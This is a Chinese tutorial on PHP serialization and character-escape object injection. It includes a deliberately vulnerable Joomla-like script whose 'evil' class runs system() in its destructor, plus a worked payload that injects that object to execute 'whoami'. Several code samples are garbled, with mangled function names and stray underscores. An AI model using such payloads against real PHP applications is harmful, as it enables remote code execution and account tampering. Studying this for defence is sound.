## php序列化与反序列化


我们在开发的过程中常常遇到需要把对象或者数组进行序列号存储，反序列化输出的情况。特别是当需要把数组存储到mysql数据库中时，我们时常需要将数组进行序列号操作。


序列化（串行化）：是将变量转换为可保存或传输的字符串的过程；
反序列化（反串行化）：就是在适当的时候把这个字符串再转化成原来的变量使用。


常见的php序列化和反序列化函数有：serialize，unserialize。


serialize() ---> 函数用于序列化对象或数组，并返回一个字符串。如下:


```php
<?php
$sites = array('t1', 'tt2', 'ttt3');
$serialized_data = serialize($_sites);
echo  $serializeddata;
?>_

```


结果为：


```php
a:3:{i:0;s:2:"t1";i:1;s:3:"tt2";i:2;s:4:"ttt3";}

```


各个字符的意义 ---> o表示对象,a表示数组,s表示字符,i表示数字
a:3 表示有三个数组
i:0,表示第一个数组，s:2:"t1",表示第一个数组是字符，2表示有两个字符，为"t1"
i:1,表示第二个数组，s:3:"tt2",表示第二个数组是字符，3表示有三个字符，为"tt2"
i:2,表示第三个数组，s:4:"ttt3",表示第三个数组是字符，4表示有三个字符，为"ttt3"


再举一个例子：


```php
<?php
Classtest{
  public $a= '1';
  public $bb= 2;
  public $ccc= True;
}

$r= new test();
echo serialize($r);

```


结果为：


```php
O:4:"test":3:{s:1:"a";s:1:"1";s:2:"bb";i:2;s:3:"ccc";b:1;}

```


其中各个字符的含义是：





## php反序列化的几个特性


1.类中不存在的属性也会进行反序列化；
2.对于类和数组的反序列化，以`;`作为字段的分隔，以`}`作为结尾，若在`}`后再加数据将直接被丢弃；
3.反序列化按照严格的格式进行。


由于PHP反序列化中的字符逃逸只用到了第二个特性，所以重点看下第二个特性。


当我们反序列这个字符串`a:2:{i:0;s:6:"peri0d";i:1;s:5:"aaaaa";}`,得到的结果为：


```php
array(2) {
  [0] =>
  string(6) "peri0d"
  [1] =>
  string(5) "aaaaa"
}

```


当把字符串改为`a:2:{i:0;s:6:"peri0d";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa";`时，反序列化会得到同样的结果：





给出一个问题,代码如下，如何在username可控的情况下将密码修改为`123456`?


```php
_<?php
function filter($string){
    return strreplace('x','yy',$string);
}

$username = "peri0d";
$password = "aaaaa";_
$user = array($username, $password);

$r = filter(serialize($_user));

vardump($r);
echo '\n';

vardump(unserialize($r));_

```


分析：
正常情况下序列化的结果为：


```php
a:2:{i:0;s:6:"peri0d";i:1;s:5:"aaaaa";}

```


如果把username改为peri0dxx，序列化结果就变成了：


```php
a:2:{i:0;s:8:"peri0dyyyy";i:1;s:5:"aaaaa";}

```


这时候由于filter函数的关系，`peri0dyyyy`明明为10个字符，但是序列化字符串中却显示为8个字符，那么反序列化时必定会失败





那么如何才能修改密码呢？依据第二条规则，只需要把序列化后的字符串改为`a:2:{i:0;s:6:"peri0d";i:1;s:6:"123456";}i:1;s:5:"aaaaa";}`,那么在反序列化之后就可以成功修改密码：





目标明确：
1.输入可控的username,
2.利用filter函数将序列化后的字符串改为如下格式的
`a:2:{i:0;s:6:"peri0d";i:1;s:6:"123456";}i:1;s:5:"aaaaa";}`
3.经过反序列化之后，忽律第一个`}`后面的字符，使得`123456`逃逸出来成为我们的密码。


经过计算`";i:1;s:6:"123456";}`共有20个字符，加上`peri0d`共26个字符





如果把peri0d改为peri0dxx后经过filter函数就变成了peri0dyyyy,这是总共就为28个字符。





此时明显不能正常反序列化，那么就需要增加`x`直到可以正确反序列化，经过测试当增加到20个`x`时成功：





`123456`成功逃逸出来修改了密码。


## 一个例子


这个例子是Joomla的逃逸，下面是有人写出的一个简易的Joomla处理反序列化的机制：


```php
<?php
class evil{
    public $cmd;

    public function construct($cmd){
        $this->cmd = $cmd;
    }

    public function destruct(){
        system($this->cmd);
    }
}

class User
{
    public $username;
    public $password;

    public function construct($username, $password){
        $this->username = $username;
        $this->password = $password;
    }

}

function write($data){
    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
    file_put_contents("dbs.txt", $data);
}

function read(){
    $data = file_get_contents("dbs.txt");
    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $_data);
    return $r;
}

if(fileexists("dbs.txt")){
    unlink("dbs.txt");  
}_

$username = $_GET["username"];
echo $username;
echo "     ";_
$password = $_GET["password"];
echo $password;
write(serialize(new User(_$username, $_password)));
vardump(unserialize(read()));_

```


上述代码的大致意思是当向dbs.txt写如数据时会将_`chr(0).''.chr(0)`_替换为`\0\0\0`,读数据时则相反。


漏洞点在_`strreplace(chr(0).''.chr(0), '\0\0\0', $data)`_，因为joomla会将数据存储到mysql数据库中，protected变量序列化之后会有_`\x00\x00`_，那么mysql数据库不能存储空字符，所以在写入数据库之前经过替换，会将三个字符替换成六个字符，在反序列化时，会在读取的处理回来，这就导致存在逃逸。


反序列化读取的时候将会将六位字符`\0\0\0`替换成三位字符_`chr(0)chr(0)`_,因此字符串前面的s肯定是固定的，那么`s`对应的字符串变少以后将会吞掉其他属性的字符，那么如果我们精心算好吞掉的字符长度，并且能够控制被吞掉属性的内容，那么就能够注入对象，从而反序列化其他类


正常情况下序列化的结果为：


```php
O:4:"User":2:{s:8:"username";s:4:"test";s:8:"password";s:6:"123456";}

```


当一个对象销毁时会执行**`destruct()`**函数，我们的目标是构造payload注入到evil类中进而执行`system()`函数。


所以payload为`s:2:"rs";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}`





比如如上所示，此时我们要注入的对象为evil，此时username和password的值我们可控，那么我们可以在username中注入`\0`，来吞掉password的值，比如





首先确定要吞掉的字符串长度：


```php
O:4:"User":2:{s:8:"username";s:4:"test";s:8:"password";s:6:"123456";}

```


要吞掉的字符串长度为：`“;s:8:"password";s:6:“123456`共28个字符。


因为注入的payload长度为肯定是个二位数，所以第二个s后面肯定为二位数，所以要吞掉的字符串长度至少为29个字符。


现在就是需要在username中加入`\0`判断经过read函数出来过后的长度，由于每加入一组`\0\0\0`就可以吞掉3个字符。


假设构造username为`\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0`
其长度为54。


经过read函数处理后其长度变为了27





即可吞掉27个字符，但是上面计算需要吞掉29个字符，由于吞掉的字符长度总是3的倍数，所以最方便的办法还是将密码改为1234，这样需要吞掉的字符串长度就变成了27。


接下里就可以构造payload了。


```php
<?php
$username = ‘\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0’;
$payload = 's:2:"rs";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}';
$password = '1234";'.$payload."}";
echo $username;
echo "\n";
echo $password;

```


执行上述payload观察序列化结果：





db.txt文件中的内容：


```php
O:4:"User":2:{s:8:"username";s:54:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"password";s:54:"1234";s:2:"ts";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}}";}

```


可看到`s:54`在反序列化之后正好覆盖了`";s:8:"password";s:54:"1234`这个27个字符，从而导致evil对象的注入。


**总结起来要达到字符串逃逸导致对象注入的要求有：**
1.相邻两个属性的值是我们可以控制的
2.前一个属性的s长度可以发生变化，变长变短都可以，变短的话可以吞掉后面相邻属性的值，然后在相邻属性中注入新的对象，如果边长则可以直接在该属性中注入对象来达到反序列化


## 参考文章


[详解PHP反序列化中的字符逃逸](https://xz.aliyun.com/t/6718)
[php字符串逃逸导致的对象注入](https://m0nit0r.top/2020/02/05/object-injection-caused-by-PHP-string-escape/)
[PHP字符逃逸导致的对象注入](https://my.oschina.net/u/4264835/blog/3246584)
[Joomla3.4.6 RCE漏洞分析](https://yoga7xm.top/2019/11/30/joomla/)

